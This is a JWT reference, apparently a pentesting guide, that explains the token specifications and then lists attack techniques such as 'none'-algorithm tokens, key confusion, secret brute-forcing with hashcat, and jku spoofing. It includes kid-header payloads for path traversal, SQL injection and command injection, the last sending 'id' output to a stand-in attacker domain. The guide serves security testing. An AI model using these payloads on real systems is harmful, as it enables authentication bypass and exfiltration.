





# JSON Web Token

JSON Web Token (JWT) represents a set of claims as a JSON object that is encoded in a JSON Web Signature (JWS) and/or JSON Web Encryption (JWE) structure. A JWT is represented as a sequence of URL-safe parts (JWT claims sets) separated by the `.` characters. Each part contains a `base64url-encoded` value. The number of parts in the JWT is dependent upon the representation of the resulting JWS using the JWS compact serialization or JWE using the JWE compact serialization.


base64url algorithm is the base64 algorithm which has the following replacements:

- "+" to "-"
- "/" to "_"

and there is no standard base64 padding, which usually consists of the "=" signs


## JWT claims

The JWT claims set represents a JSON object whose members are the claims conveyed by the JWT. There are three classes of JWT claim names:
- Registered Claim Names
- Public Claim Names
- Private Claim Names

### Registered claim names

The following Claim Names are registered in the IANA "JSON Web Token Claims" registry. None of the claims defined below are intended to be mandatory to use or implement in all cases, but rather they provide a starting point for a set of useful, interoperable claims. Applications using JWTs should define which specific claims they use and when they are required or optional.

| Claim | Definition | Type | Description |
| ---  | ---  | --- | --- |
| iss | Issuer | String or URI | The "iss" claim identifies the principal that issued the JWT |
| sub | Subject | String or URI | The "sub" claim identifies the principal that is the subject of the JWT |
| aud | Audience | <p>Array of strings (String or URI)</p><p>String or URI</p> | The "aud" claim identifies the recipients that the JWT is intended for |
| exp | Expiration Time | NumericDate | The "exp" claim identifies the expiration time on or after which the JWT must not be accepted for processing |
| nbf | Not Before | NumericDate | The "nbf" claim identifies the time before which the JWT must not be accepted for processing |
| iat | Issued At | NumericDate | The "iat" claim identifies the time at which the JWT was issued |
| jti | JWT ID | String | The "jti" claim provides a unique identifier for the JWT |

### Public claim names

Claim names can be defined at will by those using JWTs. Claim name is a value that contains a collision-resistant name.

### Private claim names

A producer and consumer of a JWT may agree to use claim names that are private names: names that are not registered claim names or public claim names. Unlike public claim names, private claim names are subject to collision.

## JOSE header


The JOSE (JSON Object Signing and Encryption) header is a JSON object containing the parameters describing the cryptographic operations and parameters employed


For a JWT object, the members of the JSON object represented by the JOSE header describe the cryptographic operations applied to the JWT and optionally, additional properties of the JWT. Depending upon whether the JWT is a JWS or JWE, the corresponding rules for the JOSE header values apply.

## JSON Web Signature

JSON Web Signature (JWS) represents content secured with digital signatures or Message Authentication Codes (MACs) using JSON-based data structures. The JWS cryptographic mechanisms provide integrity protection for an arbitrary sequence of octets.

There are two closely related serializations for JWS which both share the same cryptographic underpinnings:
- The [JWS Compact Serialization](https://tools.ietf.org/html/rfc7515#section-7.1) is a compact, URL-safe representation intended for space-constrained environments such as HTTP Authorization headers and URI query parameters.
- The [JWS JSON Serialization](https://tools.ietf.org/html/rfc7515#section-7.2) represents JWSs as JSON objects and enables multiple signatures and/or MACs to be applied to the same content.


The JWT is a JWS using the JWS compact serialization


A JWS represents these logical values:



1. JOSE Header
2. JWS Payload
3. JWS Signature

### JOSE header

For a JWS, the members of the JSON object(s) representing the JOSE header describe the digital signature or MAC applied to the JWS protected header and the JWS payload and optionally additional properties of the JWS.

JWS defines the following registered header parameter names:

| Parameter | Definition | Type | Description |
| --- | --- | --- | --- |
| alg | Algorithm | String or URI | The "alg" header parameter identifies the cryptographic algorithm used to secure the JWS. You can find a list of possible values in the [JWA](https://tools.ietf.org/html/rfc7518) specification in [section 3.1](https://tools.ietf.org/html/rfc7518#section-3.1) |
| jku | JWK Set URL | URI | The "jku" header parameter is a URI that refers to a resource for a set of JSON-encoded public keys (as [JWK](https://tools.ietf.org/html/rfc7517) set), one of which corresponds to the key used to digitally sign the JWS |
| jwk | JSON Web Key | [JWK](https://tools.ietf.org/html/rfc7517) | The "jwk" header parameter is the public key that corresponds to the key used to digitally sign the JWS |
| kid | Key ID | String | The "kid" header parameter is a hint indicating which key was used to secure the JWS. When used with a [JWK](https://tools.ietf.org/html/rfc7517), the kid value is used to match a JWK "kid" parameter value |
| x5u | X.509 URL | URI | The "x5u" header parameter is a URI that refers to a resource for the [X.509 public key certificate or certificate chain](https://tools.ietf.org/html/rfc5280) in PEM-encoded form corresponding to the key used to digitally sign the JWS |
| x5c | X.509 Certificate Chain | [Array of certificate value strings](https://tools.ietf.org/html/rfc7515#section-4.1.6) | The "x5c" header parameter contains the [X.509 public key certificate or certificate chain](https://tools.ietf.org/html/rfc5280) corresponding to the key used to digitally sign the JWS |
| x5t | X.509 certificate SHA-1 thumbprint | String | The "x5t" header parameter is a base64url-encoded SHA-1 thumbprint (digest) of the DER encoding of the X.509 certificate corresponding to the key used to digitally sign the JWS |
| x5t#S256 | X.509 Certificate SHA-256 Thumbprint | String | The "x5t#S256" header parameter is a base64url-encoded SHA-256 thumbprint (digest) of the DER encoding of the X.509 certificate corresponding to the key used to digitally sign the JWS |
| typ | Type | [IANA.MediaTypes](https://www.iana.org/assignments/media-types/media-types.xhtml) | The "typ" header parameter is used by JWS applications to declare the media type of this complete JWS. This is intended for use by the application when more than one kind of object could be present in an application data structure that can contain a JWS. To indicate that this object is a JWT, **recommended to use the "JWT" value** |
| cty | Content Type | [IANA.MediaTypes](https://www.iana.org/assignments/media-types/media-types.xhtml) | The "cty" header parameter is used by JWS applications to declare the media type [IANA.MediaTypes] of the secured content (the payload). In the normal case in which nested signing operations are not employed, the use of this header parameter is **not recommended**. In the case that nested signing is employed, this header parameter must be present; in this case, **the value must be "JWT"**, to indicate that a nested JWT is carried in this JWT |
| crit | Critical | Array of the header parameter names present in the JOSE header | The "crit" header parameter indicates that extensions and/or [JWA](https://tools.ietf.org/html/rfc7518) are being used that must be understood and processed |

### JWS payload

The sequence of octets to be secured (the message). The payload can contain an arbitrary sequence of octets.

### JWS signature

Digital signature or MAC over the JWS protected header and the JWS payload. Since JWT uses JWS compact serialization, JWS unprotected headers are not used.

## JSON Web Encryption

JSON Web Encryption (JWE) represents encrypted content using JSON-based data structures. The JWE cryptographic mechanisms encrypt and provide integrity protection for an arbitrary sequence of octets. JWE utilizes authenticated encryption to ensure the confidentiality and integrity of the plaintext and the integrity of the JWE protected header and the JWE AAD.

There are two closely related serializations for JWE which both share the same cryptographic underpinnings:
- The [JWE Compact Serialization](https://tools.ietf.org/html/rfc7516#section-7.1) is a compact, URL-safe representation intended for space constrained environments such as HTTP Authorization headers and URI query parameters.
- The [JWE JSON Serialization](https://tools.ietf.org/html/rfc7516#section-7.2) represents JWEs as JSON objects and enables the same content to be encrypted to multiple parties.


The JWT is a JWE using the JWE compact serialization


A JWE represents these logical values:



1. JOSE Header
2. JWE Encrypted Key
3. JWE Initialization Vector
4. JWE AAD
5. JWE Ciphertext
6. JWE Authentication Tag

### JOSE header

For a JWE, the members of the JSON object(s) representing the JOSE header describe the encryption applied to the plaintext and optionally additional properties of the JWE.

The JOSE Header members are the union of the members of these values:
- `JWE Protected Header` - JSON object that contains the header parameters that are integrity protected by the authenticated encryption operation. These parameters apply to all recipients of the JWE. For the JWE compact serialization, this comprises the entire JOSE header. For the JWE JSON serialization, this is one component of the JOSE header.
- `JWE Shared Unprotected Header` - JSON object that contains the header parameters that apply to all recipients of the JWE that are not integrity protected. This can only be present when using the JWE JSON serialization.
- `JWE Per-Recipient Unprotected Header` - JSON object that contains header parameters that apply to a single recipient of the JWE. These header parameter values are not integrity protected. This can only be present when using the JWE JSON serialization.

JWE defines the following registered header parameter names:

| Parameter | Definition | Type | Description |
| --- | --- | --- | --- |
| alg | Algorithm | String or URI | The "alg" header parameter identifies the cryptographic algorithm used to encrypt or determine the value of the Content Encryption Key (a symmetric key for the AEAD algorithm). You can find a list of possible values in the [JWA](https://tools.ietf.org/html/rfc7518) specification in [section 4.1](https://tools.ietf.org/html/rfc7518#section-4.1) |
| enc | Encryption Algorithm | String or URI | The "enc" header parameter identifies the content encryption algorithm used to perform authenticated encryption on the plaintext to produce the ciphertext and the authentication tag. This algorithm must be an AEAD algorithm with a specified key length. You can find a list of possible values in the [JWA](https://tools.ietf.org/html/rfc7518) specification in [section 5.1](https://tools.ietf.org/html/rfc7518#section-5.1) |
| zip | Compression Algorithm | String | The "zip" applied to the plaintext before encryption, if any |
| jku | JWK Set URL | URI | The "jku" header parameter is a URI that refers to a resource for a set of JSON-encoded public keys (as [JWK](https://tools.ietf.org/html/rfc7517) set), one of which the JWE was encrypted; this can be used to determine the private key needed to decrypt the JWE |
| jwk | JSON Web Key | [JWK](https://tools.ietf.org/html/rfc7517) | The "jwk" header parameter is the public key that corresponds to the key used to encrypt the JWE; this can be used to determine the private key needed to decrypt the JWE |
| kid | Key ID | String | The "kid" header parameter is a hint indicating which key was used to encrypt the JWE. When used with a [JWK](https://tools.ietf.org/html/rfc7517), the kid value is used to match a JWK "kid" parameter value |
| x5u | X.509 URL | URI | The "x5u" header parameter is a URI that refers to a resource for the [X.509 public key certificate or certificate chain](https://tools.ietf.org/html/rfc5280) in PEM-encoded form corresponding to the key used to encrypt the JWE |
| x5c | X.509 Certificate Chain | [Array of certificate value strings](https://tools.ietf.org/html/rfc7515#section-4.1.6) | The "x5c" header parameter contains the [X.509 public key certificate or certificate chain](https://tools.ietf.org/html/rfc5280) corresponding to the key used to encrypt the JWE |
| x5t | X.509 certificate SHA-1 thumbprint | String | The "x5t" header parameter is a base64url-encoded SHA-1 thumbprint (digest) of the DER encoding of the X.509 certificate corresponding to the key used to encrypt the JWE |
| x5t#S256 | X.509 Certificate SHA-256 Thumbprint | String | The "x5t#S256" header parameter is a base64url-encoded SHA-256 thumbprint (digest) of the DER encoding of the X.509 certificate corresponding to the key used to encrypt the JWE |
| typ | Type | [IANA.MediaTypes](https://www.iana.org/assignments/media-types/media-types.xhtml) | The "typ" header parameter is used by JWE applications to declare the media type of this complete JWE. This is intended for use by the application when more than one kind of object could be present in an application data structure that can contain a JWE. To indicate that this object is a JWT, **recommended to use the "JWT" value** |
| cty | Content Type | [IANA.MediaTypes](https://www.iana.org/assignments/media-types/media-types.xhtml) | The "cty" header parameter is used by JWE applications to declare the media type [IANA.MediaTypes] of the secured content (the plaintext). In the normal case in which nested encryption operations are not employed, the use of this header parameter is **not recommended**. In the case that nested encryption is employed, this header parameter must be present; in this case, **the value must be "JWT"**, to indicate that a nested JWT is carried in this JWT |
| crit | Critical | Array of the header parameter names present in the JOSE header | The "crit" header parameter indicates that extensions and/or [JWA](https://tools.ietf.org/html/rfc7518) are being used that must be understood and processed |

### JWE Encrypted Key


**Authenticated Encryption with Associated Data (AEAD)** is an algorithm is one that encrypts the plaintext, allows additional authenticated data to be specified, and provides an integrated content integrity check over the ciphertext and additional authenticated data. AEAD algorithms accept two inputs, the plaintext and the additional authenticated data value, and produce two outputs, the ciphertext and the authentication tag value. AES Galois/Counter Mode (GCM) is one such algorithm

**Content encryption key** is a symmetric key for the AEAD algorithm used to encrypt the plaintext to produce the ciphertext and the authentication tag


Encrypted content encryption key value. Note that for some algorithms, the JWE encrypted key value is specified as being the empty octet sequence.

### JWE Initialization Vector

Initialization vector is an initialization vector value used when encrypting the plaintext. Note that some algorithms may not use an initialization vector, in which case this value is the empty octet sequence.

### JWE AAD


**Additional Authenticated Data (AAD)** is an input to an AEAD operation that is integrity protected but not encrypted.


AAD is an additional value to be integrity protected by the authenticated encryption operation. This can only be present when using the JWE JSON serialization.

Note that this can also be achieved when using either the JWE compact serialization or the JWE JSON serialization by including the AAD value as an integrity-protected header parameter value, but at the cost of the value being double base64url encoded.

### JWE Ciphertext

Ciphertext is a value resulting from authenticated encryption of the plaintext with additional authenticated data.

### JWE Authentication Tag


**Authentication Tag** is an output of an AEAD operation that ensures the integrity of the ciphertext and the additional authenticated data. Note that some algorithms may not use an authentication tag, in which case this value is the empty octet sequence


Authentication tag is a value resulting from authenticated encryption of the plaintext with additional authenticated data.

# Security issues (JWS)

## Support for the none algorithm

The `none` algorithm allows you to use JWT tokens without signature. Note that this is one of two algorithms that must be implemented according to the [specification](https://tools.ietf.org/html/rfc7519#section-8). The `none` algorithm may be supported in a production environment, resulting in a vulnerability.

To exploit this, change the "alg" value to `none` and send the JWT token without (or with) the signature to an API endpoint. If the `none` algorithm is supported, the JWT token will be valid.



You can try the following `none` algorithm variants:
- none
- None
- NONE
- nOnE

References:
- [Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)
- [CVE-2018-1000531](https://www.cvedetails.com/cve/CVE-2018-1000531/)

## Lack of a valid signature

Try to keep a signature algorithm (e.g. HS256) and remove the signature section.



References:
- [FusionAuth JWT: The library does not check the situation if signature algorithm is defined but no signature is provided](https://github.com/FusionAuth/fusionauth-jwt/issues/2)

## Disclosure of a correct signature

Try to change a payload and send such token to an API endpoint. If the endpoint has been configured to display exceptions to the user, you can get the correct signature that matches the changed data.

```http
Invalid signature.
Expected 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgB1Y= got 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgBOo=
```

References:
- [Jwt.Net: You disclose the correct signature with each SignatureVerificationException...](https://github.com/jwt-dotnet/jwt/issues/61)
- [CVE-2019-7644: Security Vulnerability in Auth0-WCF-Service-JWT](https://auth0.com/docs/security/cve-2019-7644)

## Weak an HMAC secret key

HMAC-based algorithms use a secret key to create (and validate) a signature. You can try to bruteforce the secret key with [hashcat](https://hashcat.net/hashcat/):

```bash
$ hashcat -a0 -m 16500 jwt.txt wordlist.txt
```

References:
- [Report: &#91;smena.samokat.ru&#93; Predictable JWT secret](https://hackerone.com/reports/896649)

## Using the same keys for different algorithms

If the same keys is used for asymmetric and symmetric algorithms, you can use a public RSA key as an HMAC secret key for signing tampered JWT token. In this case, exploitation consists of the following steps:

1. An attacker grabs the public RSA key.
2. The attacker sets the "alg" value to `HS256`.
3. The attacker signs the token with the public RSA key as an HMAC secret key.
4. The attacker sends the tampered token to a server.
5. The server receives token, checks which algorithm was used for the signature (HS256).
6. Since the verification key is set in the configuration as the public RSA key, the signature will be valid (the same verification key was used to create the signature, and the attacker changed the signature algorithm to HS256).



References:
- [CVE-2016-10555](https://www.cvedetails.com/cve/CVE-2016-10555/)
- [CVE-2016-5431](https://nvd.nist.gov/vuln/detail/CVE-2016-5431)

## Support the jwk or x5c header parameters

The "jwk" ("x5c") header parameter representing a public key (X.509 public key certificate or certificate chain) can be embedded within the header of a JWS. This public key/X.509 public key certificate or certificate chain will be then trusted for verification. You can exploit this by forging valid JWS objects by removing the original signature, adding a new public key to the header, and then signing the object using the (your) private key associated with the public key embedded in that JWS header.

References:
- [CVE-2018-0114](https://nvd.nist.gov/vuln/detail/CVE-2018-0114)
- [&#91;jose&#93; High risk vulnerability in RFC 7515](https://mailarchive.ietf.org/arch/msg/jose/gQU_C_QURVuwmy-Q2qyVwPLQlcg/)
- [perl-Crypt-JWT: fix JWS signature validation (proper jwk header + kid_keys handling)](https://github.com/DCIT/perl-Crypt-JWT/commit/b98a59b42ded9f9e51b2560410106207c2152d6c)

## Timing attack on the signature

Signature verification algorithm vulnerable to time attack, if the following points are true:

1. The signature from JWS is verified byte by byte with the correct signature (generated by the side that accepts the JWS).
2. The verification ends on the first inconsistent byte.

To exploit the timing attack, observe the response times by generating sequential signatures, starting with the first byte, then moving on to the second, and so on.

References:
- [emarref/jwt: Use timing-safe hash comparision](https://github.com/emarref/jwt/pull/20)
- [authentikat-jwt: add option to do full comparison to prevent time based guessing of the private key](https://github.com/jasongoodwin/authentikat-jwt/issues/12)

# Security issues (JWE)

## Weak algorithms

There are interesting researches:
- [Critical Vulnerability Uncovered in JSON Encryption](https://web.archive.org/web/20201130103442/https://blogs.adobe.com/security/2017/03/critical-vulnerability-uncovered-in-json-encryption.html) - incorrect implementation of the ECDH-ES algorithm allows an attacker to recover the private key.
- [Practical Cryptanalysis of Json Web Token and Galois Counter Mode’s Implementations](https://rwc.iacr.org/2017/Slides/nguyen.quan.pdf) - Google researchers are writing about AES in the GCM mode in context of JWT, and they sum up: GCM is fragile, but its implementations were rarely checked.
- [Chosen Ciphertext Attacks Against Protocols Based on the RSA Encryption Standard PKCS #1](http://archiv.infsec.ethz.ch/education/fs08/secsem/bleichenbacher98.pdf) - the article describes an attack to RSA encryption with PKCS1v1.5 padding, which is allowed to be used according to the [specification](https://tools.ietf.org/html/rfc7518#section-4.1) (also see [here](https://asecuritysite.com/encryption/c_c3)).

## Incorrect composition of encryption and signature

Some libraries that decrypt a JWE-encrypted JWT to obtain a JWS-signed object do not always validate the internal signature.

# Security issues (general)

## Spoofing the jku header parameter

The "jku" header parameter is a URI that refers to a resource for a set of JSON-encoded public keys (as [JWK](https://tools.ietf.org/html/rfc7517) set), one of which corresponds to the key used to digitally sign the JWS / one of which the JWE was encrypted. Change a JWT token to point the "jku" parameter value to your webserver with a public key, and sign / encrypt the token with the corresponding private key.

References:
- [Write-Up: WEB - JWT from VolgaCTF Qualifier 2021](https://www.sigflag.at/blog/2021/volgactf2021qualifier-JWT/)

## SSRF via the jku or x5u header parameters

The "jku" ("x5u") header parameter is the URI that the server uses to retrieve the public keys (X.509 public key certificate or certificate chain). You can use it to exploit SSRF vulnerabilities.



## Injections via the kid header parameter

The `kid` header parameter is used by the relying application to perform key lookup.

### Command injection

`kid` parameter can be passed to the system-like function, that will lead to the command injection:

```json
{
    "alg": "HS256",
    "typ": "JWT",
    "kid": "kid;dig $(id | base64 -w0).attacker-website.com",
}
```

### Path traversal

The `kid` parameter specifies the path to the key in a filesystem, which is used to verify the token. If an attacker enters the path to a file with predictable content in the `kid` parameter, they will be able to generate a forged token since the secret key is already known. One such file is the `/proc/sys/kernel/randomize_va_space`, which is used in Linux systems and has predictable values like `0,1,2`. An attacker can create a malicious token using secret values `0,1,2` and send it to the server.

```json
{
    "alg": "HS256",
    "typ": "JWT",
    "kid": "../../../../../../../dev/null",
}
```

### SQL injection

An application can store its keys in a database. If such a key is referenced in the `kid` parameter, it might be vulnerable to SQL injection.

```json
{
    "alg": "HS256",
    "typ": "JWT",
    "kid": "key' UNION SELECT 'hop",
}
```

## Substitution attacks

There are attacks in which one recipient will have a JWT intended for it and attempt to use it at a different recipient that it was not intended for. This applies to the following cases:
- An application does not validate (or does not validate correctly) that the cryptographic keys used for the cryptographic operations in the JWT belong to the issuer (the `iss` claim).
- An application does not validate (or does not validate correctly) that the subject value (the `sub` claim) corresponds to a valid subject and/or issuer/subject pair at the application (this may include confirming that the issuer is trusted by the application).
- The `aud` claim is not used (or is used incorrectly) to determine whether the JWT is being used by an intended party or was substituted by an attacker at an unintended party when the same issuer can issue JWTs that are intended for use by more than one relying party or application.

## Cross-JWT confusion

Since JWTs are used by different protocols in different application areas, you can try to issue a JWT token for one purpose and use it for a different purpose.

## Replay attack

If expiring and revoking mechanisms have weaknesses, JWT tokens can be used for replay attacks. In this case, need to pay attention to "exp" (expiration date of a token) and "jti" (unique token identifier) claims, and try to use an expired/revoked JWT token.

References:
- [Jwt.Net: JWT not throwing ExpiredTokenException in .Net Core](https://github.com/jwt-dotnet/jwt/issues/134)

# Tool





# References

- [RFC7519: JSON Web Token (JWT)](https://tools.ietf.org/html/rfc7519)
- [RFC7515: JSON Web Signature (JWS)](https://tools.ietf.org/html/rfc7515)
- [RFC7516: JSON Web Encryption (JWE)](https://tools.ietf.org/html/rfc7516)
- [JSON Web Token Best Current Practices](https://tools.ietf.org/id/draft-ietf-oauth-jwt-bcp-02.html)
- [Securitum: JWT (JSON Web Token) (in)security](https://research.securitum.com/jwt-json-web-token-security/)
- [Redhunt Labs: A Practical Guide to Attacking JWT (JSON Web Tokens)](https://research.securitum.com/jwt-json-web-token-security/)
